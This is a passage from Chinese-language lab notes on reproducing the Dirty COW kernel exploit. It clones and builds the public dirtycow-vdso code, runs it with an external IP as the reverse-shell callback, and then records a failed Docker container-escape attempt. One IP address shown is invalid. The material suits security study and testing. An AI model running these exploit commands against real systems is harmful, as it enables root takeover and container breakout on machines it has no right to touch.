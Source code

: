 ```bash
sudo mkdir /dirtycow-vdso
sudo git clone https://github.com/scumjr/dirtycow-vdso.git /dirtycow-vdso
cd dirtycow-vdso
make

./0xdeadbeef 43.142.177.224:80
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666163796095-824bf686-6469-4752-8d44-f43de4327172.png#averageHue=%23c3eddf&clientId=udb4687ae-39f7-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=379&id=u5ffd06bd&margin=%5Bobject%20Object%5D&name=image.png&originHeight=568&originWidth=1437&originalType=binary&ratio=1&rotation=0&showTitle=false&size=258518&status=error&style=none&taskId=u2b8a7bb0-3258-4542-ad7a-bf26290b0b6&title=&width=958)

#### docker 逃逸(fail)
测试环境下载，下载不了可以本机下载再复制过去
```bash
git clone https://github.com/gebl/dirtycow-docker-vdso.git
git clone https://github.com.cnpmjs.org/gebl/dirtycow-docker-vdso.git

```
安装docker
```bash
# Ubuntu14.04安装docker教程
https://juejin.cn/post/6844903993387253768

# 安装docker-compose
sudo curl -L "https://github.com/docker/compose/releases/download/1.25.0/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
# 下交不了或速度较慢则换一个
sudo curl -L "https://get.daocloud.io/docker/compose/releases/download/1.27.3/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose

# 修改docker-compose文件夹权限
chmod +x /usr/local/bin/docker-compose
```
运行测试容器
```bash
cd dirtycow-docker-vdso/
sudo docker-compose run dirtycow /bin/bash
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666148730895-d1376ab2-48a4-4368-bd09-9c661eccbf1b.png#averageHue=%23300a25&clientId=ua2b2fa46-a8c3-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=307&id=u6c137522&margin=%5Bobject%20Object%5D&name=image.png&originHeight=460&originWidth=716&originalType=binary&ratio=1&rotation=0&showTitle=false&size=81764&status=error&style=none&taskId=u2dc49547-5fc2-407e-81fc-954efc85f2e&title=&width=477.3333333333333)
起docker的时候可能会因为网络环境问题无法git clone这时候可以先把Dockerfile中这三行删除掉，手动下载并移动到docker中
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666160724693-808b8494-276e-4b5c-bf85-034fdf72afe5.png#averageHue=%23f9f1f0&clientId=udb4687ae-39f7-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=182&id=ub77e0056&margin=%5Bobject%20Object%5D&name=image.png&originHeight=273&originWidth=499&originalType=binary&ratio=1&rotation=0&showTitle=false&size=13925&status=error&style=none&taskId=u168d8051-4222-4197-b5eb-1e50deafba2&title=&width=332.6666666666667)
进入容器编译并执行
```bash
cd /dirtycow-vdso/
make
./0xdeadbeef 443.142.177.224:80
```
失败了...
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666164010468-6e0bb652-ab9f-4497-9944-d1a7f421eb4d.png#averageHue=%23351b3e&clientId=udb4687ae-39f7-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=463&id=u2ec8c409&margin=%5Bobject%20Object%5D&name=image.png&originHeight=695&originWidth=1577&originalType=binary&ratio=1&rotation=0&showTitle=false&size=496573&status=error&style=none&taskId=ufcfef6cc-0c67-42b6-9228-1321e117446&title=&width=1051.3333333333333)

---
